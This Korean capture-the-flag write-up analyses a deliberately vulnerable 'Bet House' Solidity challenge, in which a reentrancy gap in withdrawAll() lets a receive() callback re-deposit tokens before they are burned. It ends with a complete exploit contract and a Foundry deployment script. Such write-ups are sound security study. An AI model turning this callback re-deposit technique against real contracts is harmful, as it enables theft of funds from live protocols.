

## 문제
### 지문

Welcome to the Bet House.
You start with 5 Pool Deposit Tokens (PDT).
Could you master the art of strategic gambling and become a bettor?
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC20} from "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import {Ownable} from "openzeppelin-contracts-08/access/Ownable.sol";
import {ReentrancyGuard} from "openzeppelin-contracts-08/security/ReentrancyGuard.sol";

contract BetHouse {
    address public pool;
    uint256 private constant BET_PRICE = 20;
    mapping(address => bool) private bettors;

    error InsufficientFunds();
    error FundsNotLocked();

    constructor(address pool_) {
        pool = pool_;
    }

    function makeBet(address bettor_) external {
        if (Pool(pool).balanceOf(msg.sender) < BET_PRICE) {
            revert InsufficientFunds();
        }
        if (!Pool(pool).depositsLocked(msg.sender)) revert FundsNotLocked();
        bettors[bettor_] = true;
    }

    function isBettor(address bettor_) external view returns (bool) {
        return bettors[bettor_];
    }
}

contract Pool is ReentrancyGuard {
    address public wrappedToken;
    address public depositToken;

    mapping(address => uint256) private depositedEther;
    mapping(address => uint256) private depositedPDT;
    mapping(address => bool) private depositsLockedMap;
    bool private alreadyDeposited;

    error DepositsAreLocked();
    error InvalidDeposit();
    error AlreadyDeposited();
    error InsufficientAllowance();

    constructor(address wrappedToken_, address depositToken_) {
        wrappedToken = wrappedToken_;
        depositToken = depositToken_;
    }

    /**
     * @dev Provide 10 wrapped tokens for 0.001 ether deposited and
     *      1 wrapped token for 1 pool deposit token (PDT) deposited.
     *  The ether can only be deposited once per account.
     */
    function deposit(uint256 value_) external payable {
        // check if deposits are locked
        if (depositsLockedMap[msg.sender]) revert DepositsAreLocked();

        uint256 _valueToMint;
        // check to deposit ether
        if (msg.value == 0.001 ether) {
            if (alreadyDeposited) revert AlreadyDeposited();
            depositedEther[msg.sender] += msg.value;
            alreadyDeposited = true;
            _valueToMint += 10;
        }
        // check to deposit PDT
        if (value_ > 0) {
            if (PoolToken(depositToken).allowance(msg.sender, address(this)) < value_) revert InsufficientAllowance();
            depositedPDT[msg.sender] += value_;
            PoolToken(depositToken).transferFrom(msg.sender, address(this), value_);
            _valueToMint += value_;
        }
        if (_valueToMint == 0) revert InvalidDeposit();
        PoolToken(wrappedToken).mint(msg.sender, _valueToMint);
    }

    function withdrawAll() external nonReentrant {
        // send the PDT to the user
        uint256 _depositedValue = depositedPDT[msg.sender];
        if (_depositedValue > 0) {
            depositedPDT[msg.sender] = 0;
            PoolToken(depositToken).transfer(msg.sender, _depositedValue);
        }

        // send the ether to the user
        _depositedValue = depositedEther[msg.sender];
        if (_depositedValue > 0) {
            depositedEther[msg.sender] = 0;
            payable(msg.sender).call{value: _depositedValue}("");
        }

        PoolToken(wrappedToken).burn(msg.sender, balanceOf(msg.sender));
    }

    function lockDeposits() external {
        depositsLockedMap[msg.sender] = true;
    }

    function depositsLocked(address account_) external view returns (bool) {
        return depositsLockedMap[account_];
    }

    function balanceOf(address account_) public view returns (uint256) {
        return PoolToken(wrappedToken).balanceOf(account_);
    }
}

contract PoolToken is ERC20, Ownable {
    constructor(string memory name_, string memory symbol_) ERC20(name_, symbol_) Ownable() {}

    function mint(address account, uint256 amount) external onlyOwner {
        _mint(account, amount);
    }

    function burn(address account, uint256 amount) external onlyOwner {
        _burn(account, amount);
    }
}
```
## 배경지식

---

이 문제에는 두 종류의 토큰이 나온다. `depositToken`은 처음 플레이어가 들고 있는 `Pool Deposit Token`, 즉 PDT이고, `wrappedToken`은 `Pool`에 예치했을 때 새로 민팅되는 내부 잔고 토큰이다.
`deposit()`의 교환 규칙은 단순하다. `0.001 ether`를 넣으면 `wrappedToken` 10개를 받고, PDT 1개를 넣으면 `wrappedToken` 1개를 받는다. 플레이어는 처음에 PDT 5개만 있으므로 정상적으로는 PDT 5개와 ETH 예치를 합쳐도 `wrappedToken`은 \$10+5=15\$개뿐이다.

---

`withdrawAll()`은 `nonReentrant`가 붙어 있지만, 함수 내부에서 이더를 돌려줄 때 `call`을 사용한다. 수신자가 컨트랙트라면 이 시점에 `receive()`가 실행된다.
이더를 보내는 `call`은 `wrappedToken`을 burn하기 전에 실행된다. 즉 콜백이 실행되는 동안에는 아직 기존 `wrappedToken` 잔고가 남아 있다. `nonReentrant`는 같은 `withdrawAll()`로 다시 들어오는 reentrancy attack만 막고, `deposit()`, `lockDeposits()`, `makeBet()` 호출까지 막지는 않는다.
## 문제 코드 분석

---

먼저 베팅 조건을 보자.
```solidity
function makeBet(address bettor_) external {
    if (Pool(pool).balanceOf(msg.sender) < BET_PRICE) {
        revert InsufficientFunds();
    }
    if (!Pool(pool).depositsLocked(msg.sender)) revert FundsNotLocked();
    bettors[bettor_] = true;
}
```
`makeBet()`은 `bettor_`를 등록하지만, 조건 검사는 `bettor_`가 아니라 `msg.sender` 기준으로 한다. 플레이어가 직접 조건을 만족할 필요는 없다. 공격 컨트랙트가 `msg.sender`로서 `wrappedToken` 20개 이상과 `depositsLocked == true`를 만족하면, `bettor_`에는 플레이어 주소를 넣어 플레이어를 bettor로 등록할 수 있다.

---

이제 `deposit()`의 교환 비율을 보자.
```solidity
if (msg.value == 0.001 ether) {
    if (alreadyDeposited) revert AlreadyDeposited();
    depositedEther[msg.sender] += msg.value;
    alreadyDeposited = true;
    _valueToMint += 10;
}
if (value_ > 0) {
    if (PoolToken(depositToken).allowance(msg.sender, address(this)) < value_) revert InsufficientAllowance();
    depositedPDT[msg.sender] += value_;
    PoolToken(depositToken).transferFrom(msg.sender, address(this), value_);
    _valueToMint += value_;
}
```
한 번의 `deposit()`에서 ETH와 PDT를 동시에 예치할 수 있다. 공격 컨트랙트가 `0.001 ether`와 PDT 5개를 넣으면 `wrappedToken` 15개를 받는다.
하지만 목표는 20개다. 처음 가진 PDT가 5개뿐이므로 일반적인 흐름에서는 추가 5개를 만들 방법이 없어 보인다. 여기서 `withdrawAll()`의 순서가 필요하다.

---

마지막으로 `withdrawAll()`의 순서를 보자.
```solidity
function withdrawAll() external nonReentrant {
    uint256 _depositedValue = depositedPDT[msg.sender];
    if (_depositedValue > 0) {
        depositedPDT[msg.sender] = 0;
        PoolToken(depositToken).transfer(msg.sender, _depositedValue);
    }

    _depositedValue = depositedEther[msg.sender];
    if (_depositedValue > 0) {
        depositedEther[msg.sender] = 0;
        payable(msg.sender).call{value: _depositedValue}("");
    }

    PoolToken(wrappedToken).burn(msg.sender, balanceOf(msg.sender));
}
```
`withdrawAll()`은 먼저 PDT를 돌려준다. 그 다음 ETH를 `call`로 돌려주고, 마지막에 `wrappedToken`을 burn한다.
공격 컨트랙트의 `receive()`가 실행되는 순간에는 이미 PDT 5개를 다시 받은 상태이고, 기존 `wrappedToken` 15개는 아직 burn되지 않았다. 이때 반환받은 PDT 5개를 다시 `deposit(5)`하면 `wrappedToken`이 5개 더 민팅되어 총 20개가 된다.
이후 같은 콜백 안에서 `lockDeposits()`를 호출하면 공격 컨트랙트는 베팅 조건을 만족한다. 마지막으로 `makeBet(player)`를 호출하면 조건 검사는 공격 컨트랙트 기준으로 통과하고, 등록 대상은 플레이어가 된다.
## 풀이
공격 컨트랙트에 플레이어의 PDT 5개를 보내고, `0.001 ether`와 함께 `deposit(5)`를 호출한다. 이 시점에서 공격 컨트랙트는 `wrappedToken` 15개를 가진다.
곧바로 `withdrawAll()`을 호출하면 `Pool`은 PDT 5개를 먼저 돌려주고, ETH 환불 과정에서 공격 컨트랙트의 `receive()`를 실행한다. 아직 burn이 일어나기 전이므로 `receive()` 안에서 PDT 5개를 다시 예치하면 잔고가 20개가 된다. 그 상태로 예치를 잠그고 `makeBet(player)`를 호출하면 된다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

interface IBetHouse {
    function pool() external view returns (address);
    function makeBet(address bettor_) external;
    function isBettor(address bettor_) external view returns (bool);
}

interface IPool {
    function deposit(uint256 value_) external payable;
    function withdrawAll() external;
    function lockDeposits() external;
    function depositToken() external view returns (address);
}

interface IERC20Like {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transfer(address to, uint256 amount) external returns (bool);
}

contract BetHouseExploit {
    uint256 private constant PDT_AMOUNT = 5;

    IBetHouse private immutable betHouse;
    IPool private immutable pool;
    IERC20Like private immutable depositToken;
    address private immutable player;

    constructor(address betHouse_, address player_) {
        betHouse = IBetHouse(betHouse_);
        pool = IPool(betHouse.pool());
        depositToken = IERC20Like(pool.depositToken());
        player = player_;
    }

    function attack() external payable {
        require(msg.value == 0.001 ether, "send 0.001 ether");
        require(depositToken.balanceOf(address(this)) >= PDT_AMOUNT, "missing PDT");

        depositToken.approve(address(pool), PDT_AMOUNT);
        pool.deposit{value: msg.value}(PDT_AMOUNT);
        pool.withdrawAll();
    }

    receive() external payable {
        require(msg.sender == address(pool), "only pool");

        depositToken.approve(address(pool), PDT_AMOUNT);
        pool.deposit(PDT_AMOUNT);
        pool.lockDeposits();
        betHouse.makeBet(player);

        (bool ok,) = player.call{value: address(this).balance}("");
        require(ok, "refund failed");
    }
}

contract Sol34 is Script {
    uint256 private constant PDT_AMOUNT = 5;

    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        address player = vm.addr(privateKey);
        IBetHouse betHouse = IBetHouse(vm.envAddress("BET_HOUSE_INSTANCE"));
        IPool pool = IPool(betHouse.pool());
        IERC20Like depositToken = IERC20Like(pool.depositToken());

        vm.startBroadcast(privateKey);

        BetHouseExploit exploit = new BetHouseExploit(address(betHouse), player);
        require(depositToken.transfer(address(exploit), PDT_AMOUNT), "PDT transfer failed");
        exploit.attack{value: 0.001 ether}();
        require(betHouse.isBettor(player), "bet failed");

        vm.stopBroadcast();
    }
}
```

